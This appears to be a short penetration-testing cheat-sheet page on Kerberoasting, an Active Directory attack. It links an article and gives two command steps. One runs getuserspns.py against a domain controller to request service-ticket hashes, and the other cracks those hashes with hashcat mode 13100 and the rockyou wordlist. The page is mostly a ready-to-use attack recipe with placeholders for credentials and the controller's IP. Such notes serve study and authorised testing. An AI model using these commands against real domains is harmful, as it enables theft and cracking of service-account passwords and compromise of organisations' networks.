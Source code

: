 # Kerberoasting Overview

## Resources

* [https://medium.com/@Shorty420/kerberoasting-9108477279cc](https://medium.com/@Shorty420/kerberoasting-9108477279cc)

![](../../../.gitbook/assets/kerberoasting-overview.png)

## Kerberoasting Attack Overview

### Step 1: Get SPNs \(Service Principal Name\), Dump Hash

```bash
python getuserspns.py <DOMAIN/username:password> -dc-ip <ip of DC> -request
```

### Step 2: Crack the Hash

```bash
hashcat --help | grep Kerberos
hashcat -m 13100 kerberoasthash.txt rockyou.txt
```

